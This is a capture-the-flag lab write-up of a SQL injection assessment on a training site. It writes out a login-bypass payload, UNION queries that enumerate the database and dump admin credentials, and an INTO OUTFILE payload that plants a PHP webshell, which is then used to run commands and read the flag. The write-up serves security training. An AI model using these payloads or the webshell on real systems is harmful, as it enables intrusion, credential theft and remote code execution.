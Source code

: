 The company`Inlanefreight` has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

![image](https://academy.hackthebox.com/storage/modules/33/sqli_skills.png)

Find the vulnerabilities and submit a final flag using the skills we covered to complete this module. Don't forget to think outside the box!

![Pasted image 20250203155825.png](../../../IMAGES/Pasted%20image%2020250203155825.png)

# Bypassing the login page
---

First thing we face is the login page, we can begin this assessment by checking the source code: `CTRL+U`:

![Pasted image 20250203155958.png](../../../IMAGES/Pasted%20image%2020250203155958.png)

They haven't forgotten about any credentials or anything related, next thing in mind is trying the most simple SQLI payload:

```
' OR '1'='1'-- -
```

We can try this in the username section:

![Pasted image 20250203160114.png](../../../IMAGES/Pasted%20image%2020250203160114.png)

To our surprise, we were able to successfully log in:

![Pasted image 20250203160137.png](../../../IMAGES/Pasted%20image%2020250203160137.png)

# Database enumeration
---

We can go along with our roleplay, this part is not strictly related to the path intended to obtain the flag, but we can take advantage of the roleplay relating the company assessment and enumerate the database a little bit.

We are inside a dashboard panel, nothing seems off but the first thing we can notice is a search bar on the top right of the screen:

![Pasted image 20250203160237.png](../../../IMAGES/Pasted%20image%2020250203160237.png)

From previous modules, we found the way to enumerate the database, we can try the following:

## Columns number
---

We can enumerate the number of columns by using `ORDER BY`:

```
' order by 1-- -
```

We need to increase the number until we get an error specifying we're off the number of columns, let's automatize this by sending the request to burp's intruder and using it in the following way:

![Pasted image 20250203160644.png](../../../IMAGES/Pasted%20image%2020250203160644.png)



![Pasted image 20250203160804.png](../../../IMAGES/Pasted%20image%2020250203160804.png)

After checking the responses we can see the following:

![Pasted image 20250203161026.png](../../../IMAGES/Pasted%20image%2020250203161026.png)

Error message starts in `6`, so, the number of columns is `5`.

Knowing this, we can start next step.

## Union Injection
---

We can use the following to check if the Union Injection is working:

```sql
cn' UNION select 1,@@version,3,4,5-- -
```

We are using this since we know the number of columns, we'll get the following output:

![Pasted image 20250203161321.png](../../../IMAGES/Pasted%20image%2020250203161321.png)

So it indeed works, now we can begin to read the database:

```sql
cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -
```

We get the following:

![Pasted image 20250203161420.png](../../../IMAGES/Pasted%20image%2020250203161420.png)

The `backup` table seems interesting, we can check it out:

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='backup'-- -
```

![Pasted image 20250203161536.png](../../../IMAGES/Pasted%20image%2020250203161536.png)

We see the following, `admin_bk`, we can enumerate the columns in `admin_bk` using this:

```sql
cn' UNION SELECT 1,COLUMN_NAME,DATA_TYPE,4,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='backup' AND TABLE_NAME='admin_bk'-- -
```

We will see the following:

![Pasted image 20250203162243.png](../../../IMAGES/Pasted%20image%2020250203162243.png)

Got `username` and `password`, let's read it:

```sql
cn' UNION SELECT 1,username,password,4,5 FROM backup.admin_bk-- -
```

![Pasted image 20250203162347.png](../../../IMAGES/Pasted%20image%2020250203162347.png)

Got credentials:

```ad-important
`admin`:`Inl@n3_fre1gh7_adm!n`
```

# Now, Let's go for our flag
---

Nice, this was just an scenario to enumerate the risks of this vulnerability on the system, since in the roleplay we are doing an assessment for a company, it was important to check the enumeration part.

For our flag, we can simply try to upload a webshell in the following way.

## Checking our write privileges
---

We can check if we have high privileges with this:

```sql
' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user-- -
```

![Pasted image 20250203163116.png](../../../IMAGES/Pasted%20image%2020250203163116.png)

We can check we got `Y`, which stands for yes, meaning we have privileges, in order to write files, three conditions must be there:

```ad-important
1. User with`FILE` privilege enabled
2. MySQL global`secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server
```

Let's check if `secure_file_priv` variable is not enabled:

```sql
' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![Pasted image 20250203163254.png](../../../IMAGES/Pasted%20image%2020250203163254.png)

Value is empty, which means it is not enabled.

We can test writing with the following:

```sql
' union select 1,'file written successfully!',3,4,5 into outfile '/var/www/html/dashboard/proof.txt'-- -
```

If we visit `/proof.txt`, we can check the following:

![Pasted image 20250203163428.png](../../../IMAGES/Pasted%20image%2020250203163428.png)

We've written successfully, we can now write our webshell in the following way:

```
' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/webshell.php'-- -
```

We can confirm it worked by going to:

`http://IP:PORT/dashboard/webshell.php?0=id`

![Pasted image 20250203164153.png](../../../IMAGES/Pasted%20image%2020250203164153.png)

Let's list the `/` directory: `ls+/`

![Pasted image 20250203164320.png](../../../IMAGES/Pasted%20image%2020250203164320.png)


We can see the flag, we can simply read it by using `cat+/flag_cae1dadcd174.txt`

![Pasted image 20250203164435.png](../../../IMAGES/Pasted%20image%2020250203164435.png)

Got our flag: `528d6d9cedc2c7aab146ef226e918396`


![Pasted image 20250203164504.png](../../../IMAGES/Pasted%20image%2020250203164504.png)

